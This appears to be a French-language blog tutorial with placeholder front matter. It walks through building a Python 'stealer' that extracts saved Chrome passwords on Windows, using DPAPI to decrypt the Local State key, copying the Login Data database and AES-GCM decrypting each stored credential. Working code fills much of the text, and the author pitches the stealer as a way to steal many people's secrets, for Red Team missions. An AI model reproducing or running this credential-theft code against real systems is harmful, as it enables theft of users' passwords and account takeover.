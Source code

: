 ```yaml
---
title: "sqd"
description: "dsq"
createdAt: 04-29-2025
author: "sqqs"
draft: true
tags:
  - qsqs
---
```



## `TL;DR`
Nous utiliserons la DPAPI pour déchiffrer les secrets des navigateurs basés sur Chromium sur les systèmes Windows. Vous pourrez retrouver un script un peu plus peaufiné et écrit en Rust [ici](https://github.com/Fastiraz/chromium-based-browsers-secrets-dump).

## Qu'est-ce que la DPAPI ?
La DPAPI (Data Protection API) est un mécanisme de sécurité utilisé dans les systèmes
Windows pour la gestion des secrets. Elle permet la gestion et la protection des informations sensibles telles que les identifiants d'utilisateur, les mots de passe ou les clés de chiffrement.

## Fonctionnement de la DPAPI
Les deux fonctions principalement utilisées sont :

- `CryptProtectData()`:
	Permet aux applications de Windows de sécuriser des informations comme des mots de passe, des clés de chiffrement, ou d'autres données privées.
- `CryptUnprotectdData()`:
	Permet de déchiffrer des données précédemment protégées par `CryptProtectData()`.

## Un blob, c'est quoi ?
Les deux fonctions précédentes prennent en paramètre des data blob. Un Data Blob sous Windows est un type de champ de données qui permet de stocker des quantités massives de données non structurées de façon optimisée.

## Pourquoi la DPAPI ?
La DPAPI permet de chiffrer les secrets des navigateurs basés sur Chromium et sur les systèmes Windows. Aujourd'hui, la plupart des navigateurs sont basés sur Chromium. Google Chrome, Opera, Brave (le GOAT), Microsoft Edge, Vivaldi et plein d'autres... Les navigateurs Chromium et les systèmes Windows étant les plus répandus, développer un stealer les ciblant permettrait de voler les secrets d'un grand nombre de personnes, ce qui serait particulièrement efficace pour les missions Red Team.

## Le Stealer
Pour démontrer l'utilisation de la DPAPI pour les secrets des navigateurs Chromium, nous allons développer ensemble un stealer en python.
Voici les quatre principales étapes du script :

1. **Récupérer la clé** : Extraire la clé de chiffrement à partir du fichier `Local State` du navigateur au format JSON. Cette clé est utilisée pour déchiffrer les mots de passe stockés. C'est à ce moment que nous utiliserons la DPAPI, pour déchiffrer la clé et l'utiliser.
2. **Accéder à la base de données SQLite** : Localiser et copier la base de données `Login Data` qui contient les secrets chiffrés.
3. **Extraire le texte chiffré** : Pour chaque entrée dans la base de données, extraire la chaîne de caractères chiffrée qui contient le mot de passe.
4. **Déchiffrer le mot de passe** : Utiliser la clé déchiffrée et l'algorithme AES pour déchiffrer le mot de passe.

### La clé
Les clés étant chiffrées en utilisant un algorithme de chiffrement symétrique, AES, nous allons développer une fonction qui permet de récupérer cette clé pour déchiffrer les secrets. La clé est stockée en base64 dans l'objet `os_crypt` et sous la clé `encrypted_key`. La clé, une fois décodée, possède un suffixe (`DPAPI`) qu'il faut retirer.

```python
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % (os.environ['USERPROFILE']))

def get_secret_key():
    try:
        with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as f:
            local_state = f.read()
            local_state = json.loads(local_state)
        secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        secret_key = secret_key[5:]
        secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]
        return secret_key
    except Exception as e:
        print("%s" % str(e))
        print("[ERR] Chrome secretkey cannot be found")
        return None
```

### Extraction des secrets de la base de données SQLite
La prochaine étape est de se connecter à la base de données SQLite et de récupérer les informations souhaitées. La base de données est le fichier `Login Data` que nous copierons dans le fichier `Loginvault.db`.
Pour récupérer les secrets souhaités nous utiliserons la requête suivante:
`SELECT action_url, username_value, password_value FROM logins`

```python
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data"%(os.environ['USERPROFILE']))

def get_db_connection(chrome_path_login_db):
    try:
        shutil.copy2(chrome_path_login_db, "Loginvault.db") 
        return sqlite3.connect("Loginvault.db")
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Chrome database cannot be found")
        return None

if(secret_key and conn):
	cursor = conn.cursor()
	cursor.execute("SELECT action_url, username_value, password_value FROM logins")
	for index,login in enumerate(cursor.fetchall()):
		url = login[0]
		username = login[1]
		ciphertext = login[2]
		decrypted_password = decrypt_password(ciphertext, secret_key)
```

### Déchiffrer les secrets
Une fois le mot de passe chiffré récupéré, nous allons le déchiffrer en utilisant l'algorithme AES. Pour ça, nous utiliserons la fonction `decrypt_password` prenant en paramètre le mot de passe chiffré (`ciphertext`) et la clé (`secret_key`) nécessaire pour le déchiffrement. On commence par extraire le vecteur d'initialisation (`initialisation_vector`) et le mot de passe chiffré (`encrypted_password`) à partir du texte chiffré. Le vecteur d'initialisation est obligatoire pour le mode GCM. La fonction `generate_cipher` avec la clé et le vecteur d'initialisation en paramètre, permet de créer un nouvel objet de chiffrement AES configuré en mode GCM. Cet objet est utilisé par la fonction `decrypt_payload` pour déchiffrer le mot de passe.

```python
def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key) -> str:
    try:
        initialisation_vector = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, initialisation_vector)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()  
        return decrypted_pass
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.")
        return ""
```
